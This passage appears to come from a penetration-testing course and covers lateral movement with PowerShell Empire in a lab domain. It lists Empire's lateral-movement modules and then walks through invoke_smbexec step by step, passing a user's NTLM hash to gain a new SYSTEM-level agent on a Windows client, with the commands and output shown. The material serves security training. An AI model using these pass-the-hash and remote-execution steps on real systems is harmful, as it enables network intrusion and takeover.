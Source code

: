 Once we gain valid user credentials, we can use them to log into additional systems until we reach our objective. This is known as lateral movement.

In our labs, the domain controller is located on an internal network, meaning we can not reach it from our Kali VM. To demonstrate the mechanics of lateral movement within Empire, we'll obtain another shell on the Windows 10 client in the context of a different user.

Although this example is simplified because of the single target VM, the mechanics of the process will be the same when moving to a different remote host in a real-world situation.

There are various vectors in the _lateral_movement_ category that we can use to invoke an Empire agent on a remote host:

```
(Empire: K678VC13) > usemodule lateral_movement/technique
inveigh_relay           invoke_psremoting       invoke_wmi
invoke_dcom             invoke_smbexec          invoke_wmi_debugger
invoke_executemsbuild   invoke_sqloscmd         jenkins_script_console
invoke_psexec           invoke_sshcommand       new_gpo_immediate_task
```

As an example we will try out the _invoke_smbexec_ module, which requires several parameters.

We'll set _ComputerName_ to the hostname of the Windows 10 client (client251) and set _Listener_ to "http". We will also set the _Username_, _Domain_, and _Hash_ parameters using the relevant data from the _jeff_admin_ user account found in the previous section (Listing 25). This is configured in (Listing 27).

We can use either the _set CredID_ command to specify the ID number of the entry from the credentials store or manually enter all the credentials. Note that in this case, the passwords for both Offsec and Jeff_admin coincide.

```
(Empire: K678VC13) > usemodule lateral_movement/invoke_smbexec

(Empire: powershell/lateral_movement/invoke_smbexec) > info

              Name: Invoke-SMBExec
            Module: powershell/lateral_movement/invoke_smbexec
        NeedsAdmin: False
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

...

Options:

Name         Required    Value         Description
----         --------    -------       -----------
CredID       False                     CredID from the store to use.           
ComputerName True                      Host[s] to execute the stager on, comma 
                                       separated.                              
Service      False                     Name of service to create and delete.   
                                       Defaults to 20 char random.             
ProxyCreds   False       default       Proxy credentials                       
                                       ([domain\]username:password) to use for 
                                       request (default, none, or other).      
Username     True                      Username.                               
Domain       False                     Domain.                                 
Hash         True                      NTLM Hash in LM:NTLM or NTLM format.    
Agent        True        K678VC13      Agent to run module on.                 
Listener     True                      Listener to use.                        
...     

(Empire: powershell/lateral_movement/invoke_smbexec) > set ComputerName client251

(Empire: powershell/lateral_movement/invoke_smbexec) > set Listener http

(Empire: powershell/lateral_movement/invoke_smbexec) > set Username jeff_admin

(Empire: powershell/lateral_movement/invoke_smbexec) > set Hash e2b475c11da2a0748290d87aa966c327

(Empire: powershell/lateral_movement/invoke_smbexec) > set Domain corp.com

(Empire: powershell/lateral_movement/invoke_smbexec) > execute
Command executed with service CVTERKCMPMMECQLRWLKB on client251

[*] Sending POWERSHELL stager (stage 1) to 10.11.0.22
[*] New agent UXVZ2NC3 checked in
[+] Initial agent UXVZ2NC3 from 10.11.0.22 now active (Slack)
...
```

Excellent! The agent was successfully deployed and we can now interact with it:

```
(Empire: K678VC13) > agents

[*] Active agents:

Name      Lang  Internal IP  Machine Name    Username      Process             Delay
--------- ----  -----------  ------------    ---------     -------             -----
S2Y5XW1L  ps    10.11.0.22   CLIENT251       corp\offsec   powershell/2976     5/0.0
DWZ49BAP  ps    10.11.0.22   CLIENT251       corp\offsec   explorer/3568       5/0.0
K678VC13  ps    10.11.0.22   CLIENT251       *corp\offsec  powershell/6236     5/0.0
UXVZ2NC3  ps    10.11.0.22   CLIENT251       *corp\SYSTEM  powershell/3912     5/0.0

(Empire: agents) > interact UXVZ2NC3
(Empire: UXVZ2NC3) > 
```
